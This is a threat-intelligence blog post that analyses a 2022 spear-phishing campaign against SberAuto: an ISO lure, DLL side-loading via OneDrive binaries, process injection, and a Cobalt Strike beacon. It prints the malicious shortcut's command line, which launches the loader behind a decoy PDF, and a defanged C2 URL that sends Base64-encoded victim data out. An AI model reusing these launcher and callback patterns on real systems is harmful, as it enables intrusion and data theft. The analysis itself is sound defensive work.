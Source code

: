 +++
date = "2023-01-01"
title = "The curious case of SberAuto spear-phishing campaign"
slug = "the-curious-case-of-sberauto-spear-phishing-campaign"
+++



### Summary
On December 19, 2022 malware researcher known as **StopMalvertisin** twitted about a possible APT29 attack.

![Alt text](image-0.png)

The spear-phishing campaign targeted **SberAuto**, a Russian online car trading platform associated with the state-owned banking and financial services company **Sberbank**.  
The analyzed attack displayed similar TTPs commonly attributed to **APT29** (aka **Cozy Bear**), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.


## Technical Analysis
### Initial Stage
The first stage of this attack is represented by an **ISO** file (0b32bd907072d95223e5eb2dc5e3d9e0) named "Алкоголь_2023_zip.iso" (i.e., "Alcohol"), uploaded on VirusTotal from Russia on December 19, 2022 and potentially delivered as an email attachment.

![Alt text](image-1.png) 

The archive content closely resembles the one of previous APT29 campaigns.   

![Alt text](image-2.png)


The only folder visible item is a shortcut file disguised as "Алкоголь_2023.pdf". 

```cmd
%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf
```

Once clicked on the **LNK** file, **update.exe** is firstly executed, followed by the lure PDF document called "alcohol.pdf", which displays the alcohol catalog from the Russian market chain called **Globus Gourmet**.   

![Alt text](image-3.png)

The files "thumbcache.dll" and "update.exe" are actually two legit *signed binaries* of **Microsoft OneDrive**: the latter exploits Windows **search order hijacking** to load the malicious DLL named "version.dll," which has been modified by the threat actor to load an encrypted payload file.

![Alt text](image-4.png)


### Second stage: version.dll
The dynamic-linked library "version.dll" is a 64-bit DLL which is side-loaded by the legit Microsoft OneDrive binary.  
The *compile-timestamp* shows **Sunday, December 18 2022**. 

![Alt text](image-5.png)


The presence of specific strings hints that the program was probably created with **Shhhloader** framework, a "shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR".  

![Alt text](image-6.png)

The binary first employs ```GetComputerNameExA``` API function to retrieve the hostname of the infected machine and check whether it is equal to ```corp.sberauto[.]com```, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

![Alt text](image-7.png)

After that, the malicious DLL iterates through the running processes using ```Process32Next``` to find the ID of **explorer.exe** and obtain its process handle.

![Alt text](image-8.png)

It then creates a *suspended-process* called **RuntimeBroker.exe** using ```CreateProcessA``` and sets "explorer.exe" as the parent process via ```UpdateProcThreadAttribute``` API.   

![Alt text](image-9.png)

Finally, it decrypts the shellcode into "RuntimeBroker.exe" through ```NtAllocateVirtualMemory``` and ```NtWriteVirtualMemory```, executing it via the ```NtAlertResumeThread``` syscall.  

![Alt text](image-10.png)


### Final stage: Cobalt Strike
The final payload is a **Cobalt Strike Beacon** that, after obtaining the relevant information about the victim machine such as *username*, *computer name* and *computer version*, sends them to the **C2** ```adblockext[.]ru``` domain via  **Base64-encoded** scheme. 


```
https://adblockext[.]ru/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN?_=BASE64_ENCODED_DATA
```


## Conclusion
The similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may lead to a couple of final hypotheses.  
First, the attacks may be either orchestrated by Ukrainian groups (particularly, the "The IT Army of Ukraine") trying to simulate Cozy Bear TTPs.  
Alternately, this could be also a Russian red teaming exercise to enhance internal cybersecurity measures.






























